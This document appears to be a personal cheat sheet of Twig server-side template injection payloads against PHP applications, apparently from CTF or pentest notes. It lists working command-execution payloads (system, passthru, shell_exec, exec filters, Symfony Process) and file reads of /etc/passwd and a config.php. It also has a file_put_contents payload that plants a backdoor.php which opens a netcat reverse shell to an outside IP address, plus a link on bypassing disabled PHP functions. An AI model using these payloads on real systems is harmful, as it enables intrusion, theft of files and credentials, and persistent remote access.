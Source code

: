 #php 


```twig
 constant('PHP_VERSION')
```

```twig
dump()
```

##### functions
```twig
{{ system('whoami') }}  
{{ passthru('id') }}  
{{ shell_exec('ls -la') }}  
{{ `ls -la` }}  {# same as shell_exec #}
```

```twig
{{ 'id'|exec }}      
{{ 'ls -la'|shell }}
```

if dump doesnt work
```twig
{{ _self }}
{{ _context }}
```

check if we have access to symphony classes
```
{{ constant('Symfony\\Component\\Process\\Process')(['id']) }}
```

#### LFI
```
{{ include('/etc/passwd') }}  
{{ source('/var/www/html/config.php') }}
```

##### Read
```twig
{{['file:///www/src/Controller/DefaultController.php']|map('file_get_contents')|join}}
```

##### Write
```twig
{{['/www/public/backdoor.php',"<?php mb_send_mail('', '', '', '', '-H \"nc 3.124.142.205 16204 -e /bin/sh\"');"]|sort('file_put_contents')}}
```

##### Notes
https://github.com/alessiogiorgianni/JerryTok/blob/main/notes.txt

##### Bypass disabled functions
https://_thorns.gitbooks.io/bypass/content/bypass_php_system_functions_disabled_via_modcgi.html